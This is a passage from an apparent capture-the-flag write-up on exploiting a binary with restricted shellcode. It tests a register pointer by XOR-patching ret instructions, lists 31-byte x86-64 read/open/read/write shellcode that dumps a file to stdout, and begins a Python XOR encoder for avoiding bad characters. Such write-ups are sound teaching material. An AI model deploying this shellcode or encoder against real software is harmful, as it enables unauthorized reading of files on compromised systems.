 ```
ret
ret
ret
ret
```

When this code executes, the `xor` instruction should change the `ret` instructions to `jmp $-2`, or infinite loops (this works, because `c3 c3 c3 c3 xor 28 3d 28 3d` translates to `eb fe eb fe`). If `rax` does not point to the shellcode, I might get a SIGSEGV or the code simply exits. 

Compiling it and sending it over, however, makes the program hang! This must means that the `ret`s were changed into `jmp` instructions, proving the hypothesis. We can use `rax` as a pointer to the shellcode! Now, we need to carve out the actual shellcode and execute it. I chose to use the same `xor` strategy. I made the `read/open/read/write` shellcode a lot smaller, managing to bring it down to 31 bytes. It contains bad chars again, but that's okay because I'm gonna encode it anyway:

```
bits 64

_start:

xor rax, rax        ; syscall read
push rax
pop rdi             ; rdi: fd = stdin 
push rsp
pop rsi             ; rsi points to stack, aka a buffer
push byte 127
pop rdx             ; read 127 bytes
syscall

mov al, 2           ; open; because we read less than 128 bytes, the rest of rax/eax/ax/ah will contain zeroes.
xchg rsi, rdi       ; rsi is now zero (O_RDONLY) and rdi points to the filename on the stack
syscall             ; open the file

xchg rax, rdi       ; after this, rax = pointer to the stack, rdi = filehandle
xchg rax, rsi       ; after this, rax = 0, rsi = pointer to the stack
syscall             ; read

mov al, 1           ; again, less than 128 bytes will be read
push rax
pop rdi             ; fd = stdout
                    ; rsi = still pointer to buffer
                    ; rdx = still 0x7f
syscall             ; write out contents of flag to stdout!
```

Next, I needed to carve out this shellcode using `xor` instructions. These instructions must not contain bad chars. Luckily, `xor dword ptr [rax+offset]` itself does not contain bad chars, or they can be avoided.

```python
import struct

''' this function will try to locate a combination of two bytes that, when
    xor'ed, yield the required byte.
'''
def find_xor_bytes(b):
    for i in range(256):
        if i not in badchars:
            if ord(b) ^ i not in badchars:
                # return the two bytes that encode the required byte
                return chr(i), chr(ord(b) ^ i)
    print "cannot find proper byte for {}".format(b)
    exit(-1)
    
```